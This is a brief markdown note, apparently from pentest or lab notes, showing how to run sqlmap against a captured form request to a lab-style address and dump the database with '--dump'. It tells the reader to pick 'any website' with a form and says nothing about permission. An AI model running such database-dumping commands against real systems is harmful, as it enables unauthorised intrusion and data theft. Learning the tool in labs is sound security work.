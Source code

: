 # sqlmap

```
git clone https://github.com/sqlmapproject/sqlmap
```

Find any website with some kind of form/input. Submit random data and
capture the request (not response), and save it to `request.txt`. Should look
something like this:

```http
POST /portal.php HTTP/1.1
Host: 10.10.253.120
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.253.120
DNT: 1
Connection: close
Referer: http://10.10.253.120/portal.php
Cookie: PHPSESSID=8338cjc2d4d3tssbnotreq4mi6
Upgrade-Insecure-Requests: 1

searchitem=arst
```

Then run following command:

```bash
python sqlmap/sqlmap.py -r request.txt --dump
```